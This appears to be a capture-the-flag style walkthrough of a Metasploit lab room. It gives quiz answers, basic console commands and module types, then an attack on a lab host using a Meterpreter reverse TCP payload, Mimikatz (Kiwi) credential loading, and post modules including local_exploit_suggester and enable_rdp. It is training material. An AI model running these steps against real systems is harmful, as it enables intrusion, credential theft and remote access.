


**WHAT IS METASPLOIT?**  
  It is an open-source penetration testing framework maintained by Rapid 7. Collection of Auxiliary, exploits, and post-exploitation stuff.

```
  Ques 1 -> Initialize DB
  > sudo msfdb init
```
```
  Ques 2 -> Check for advanced triggers 
  > msfconsole -h  
```
```
  Ques 3 -> We can start the Metasploit console on the command line without showing the banner or any startup information as well. What switch do we add to msfconsole to start it without showing this information? This will include the '-' 
  > -q
```
```
  Ques 4 -> After Metasploit has started, let's go ahead and check that we've connected to the   database. Do this now with the command: db_status. Cool! We've connected to the database, which type of database does Metasploit 5 use?  
  > PostgresSQL
```

**Some basic commands**  
*  Set/g - Used to change value of (global)variable
*  Use - For using a module
*  Search - as the name says
*  Unset - Opposite of set as a surprise to no one
*  Spool - Used to set the console output to a save file
*  Save - Used to store/save active settings/datastores from Metasploit
*  Load - Used to load the module
*  Hosts - To view hosts saved in DB
*  Services - To view services saved in DB with respect to hosts
*  Vulns - To view discovered vulnerabilities from the DB with respect to hosts 

**Modules**  
Metasploit have 6 core modules -  
*  Exploit - Contains all the exploit code
*  Payload - Contains various bits of shell code which is usually sent following the exploitation
*  Encoder - Helps in payload obfuscation, and modify the payload to avoid signature detection
*  NOP - Usually used for Buffer OverFlow and ROP attack
*  Auxiliary - Contains modules used for scanning/verification purposes
*  Post-Exploitation - Once in the machine, we can use the modules from this category for more


**Exp**

```
IP = 10.10.222.240
```
Using NMAP within metasploit  
```
db_nmap -sV -sC 10.10.222.240
```
```
Following ports were open - 
135 - msrpc
139 - netbios-ssn
445 - microsoft-ds
3389 - ssl/ms-wbt-server?
5357 - http
8000 - http
```
Hosts and services command show output as follows now
  


Using handler exploit found under -  
exploit/multi/handler

Set the payload to -  
Windows/meterpreter/reverse_tcp
```
SET PAYLOAD windows/meterpreter/reverse_tcp
```
And also set the LHOST and RHOST accordingly  

Using _Exploit_. Was able to send the payload and got the meterpreter session  

After the getting the shell, to migrate we used
```
migrate 1264(process of spoolsv.exe.)
```
Failed due to lack of privileges  

Used _sysinfo_ to get more info about system  

Loaded Mimikatz using _Load Kiwi_

Can use upload/download to do as the name says  

Ran a couple of modules  
post/multi/recon/local_exploit_suggester  
post/windows/gather/checkvm  
post/windows/manage/enable_rdp  



